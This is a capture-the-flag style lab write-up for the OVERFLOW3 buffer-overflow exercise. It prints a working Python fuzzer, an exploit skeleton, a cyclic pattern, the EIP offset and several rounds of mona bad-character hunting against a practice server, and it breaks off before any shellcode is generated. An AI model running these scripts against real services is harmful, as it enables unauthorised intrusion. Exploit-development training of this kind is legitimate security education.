

# OVERFLOW3

## Methodology

1\. Spiking or Playing with the program

2\. Fuzzing

3\. Controlling the EIP

4\. Finding Bad Characters

5\. Finding a Jump Point

6\. Generating a Payload

7\. "NOP Sledding"

8\. Exploitation

## Spiking or Playing

* Opened up the vulnerable program in Immunity
* Ran the program
* Noticed in Command Prompt that it is running a server on 1337
* Connected to the program via Netcat to see the inner workings of the program

## Mona Configuration

Place the following into the debugger window of Immunity:

```
!mona config -set workingfolder c:\mona\%p
```

## Fuzzing

<mark style="color:yellow;">Fuzzer.py</mark>

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.49.118"

port = 1337
timeout = 5
prefix = "OVERFLOW3 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

* Run the fuzzer and note the bytes it crashes at
* Fuzzing crashed at <mark style="color:yellow;">1300</mark> bytes

## Crash Replication and Controlling EIP

Exploit.py

```
import socket

ip = "10.10.49.118"
port = 1337

prefix = "OVERFLOW3 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

### msf-pattern\_create

* We now need to generate a program that is a length of 300 bytes longer than the string that crashed the program
* This is because we need to make room for the payload in memory
* <mark style="color:yellow;">1600</mark> bytes should do the trick

Syntax:


```
msf-pattern_create -l 1600

Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2C

```


* Add this string to the <mark style="color:yellow;">payload</mark> variable of <mark style="color:yellow;">exploit.py</mark>
* Run the exploit
* You should see an access violation has occurred upon execution&#x20;
  * \[<mark style="color:yellow;">35714234</mark>]
* Note this is the EIP

<figure><figcaption></figcaption></figure>

## Find the Distance from EIP

First, we need to find the offset value:

```
msf-pattern_offset -l 1600 -q 35714234
[*] Exact match at offset 1274
```

* Offset of <mark style="color:yellow;">1274</mark>
* Open <mark style="color:yellow;">exploit.py</mark>
* Add <mark style="color:yellow;">1274</mark> to the offset variable&#x20;
* Add "<mark style="color:yellow;">BBBB</mark>" in retn variable
* Remove the payload and replace with ""
* Restart the program
* Run the program
* Run the exploit
* You should get 42424242 in the EIP address

<figure><figcaption></figcaption></figure>

* Now we have the EIP register overwritten
* <mark style="color:yellow;">ESP address = 018CFA30</mark>

## Finding Bad Characters

```
!mona bytearray -b "\x00"
```

<mark style="color:yellow;">badchars.py</mark>

```
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

* Copy the string into the payload variable in <mark style="color:yellow;">exploit.py</mark>
* Run the exploit
* Take note of the ESP register address <mark style="color:yellow;">0198FA30</mark>

<figure><figcaption></figcaption></figure>

* Right-click on the ESP register and click follow in dump
* We will now be able to identify bad chars from the hex dump

<figure><figcaption></figcaption></figure>

Let's use mona now to find some bad chars!

* Place ESP register at the end

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0198FA30
```

<figure><figcaption></figcaption></figure>

<pre><code><strong>01</strong></code></pre>

1. Remove the bad char from the byte array
2. Remove the character from exploit payload
3. Restart program
4. Start program
5. Compare using Mona

### Attempt 1

1. Create byte array and remove \x1 from the payload too

```
!mona bytearray -b "\x00\x01\"
```

2\. Restart the program

3\. Start the program

4\. Execute the exploit

5\. Compare byte array in Mona -- ESP <mark style="color:yellow;">0189FA30</mark>

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0189FA30
```

* We have a ton more bad chars now due to adjacent addressing

<figure><figcaption></figcaption></figure>

### Attempt 2

1. Restart the program
2. Start program
3. Create a new byte array in Mona

```
!mona bytearray -b "\x00\x01\x11"
```

4\. Remove \x11 in exploit.py

5\. Run exploit

6\. Check ESP address <mark style="color:yellow;">019CFA30</mark>

7\. Compare byte array

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 019CFA30
```

<figure><figcaption></figcaption></figure>

* 40 is the next badchar up so we will use it next

### Attempt 3

1. Restart program
2. Run program
3. Create a new byte array in Mona

```
!mona bytearray -b "\x00\x11\x40"
```

4\. Remove \x40 from payload

5\. Run exploit

6\. Check ESP address <mark style="color:yellow;">0198FA30</mark>

7\. Compare byte array

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0198FA30
```

<figure><figcaption></figcaption></figure>

* 5f is next and we need to remove it!

### Attempt 4

1. Restart program
2. Run program
3. Create a new byte array in Mona

```
!mona bytearray -b "\x00\x11\x40\x5f"
```

4\. Remove \x5f from the payload

5.Run exploit

6\. Check ESP address <mark style="color:yellow;">0185FA30</mark>

7\. Compare byte array

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0185FA30
```

* I see b8, b9, ee, and ef possibly bad

### Attempt 5

1. Restart program
2. Run program
3. Create a new byte array in Mona

```
!mona bytearray -b "\x00\x11\x40\x5f\xb8"
```

4\. Remove \xb8 from the payload

5\. Run the exploit

6\. Check ESP address <mark style="color:yellow;">0192FA30</mark>

7\. Compare byte array

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0192FA30
```

* I see \xee and \xff are still there

### Attempt 6

1. Restart program
2. Run program
3. Create a new byte array in Mona

```
!mona bytearray -b "\x00\x01\x11\x40\x5f\xb8\xee"
```

4\. Remove \xee from payload

5\. Run the exploit

6\. Check ESP address <mark style="color:yellow;">018DFA30</mark>

7\. Compare byte array

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 018DFA30
```


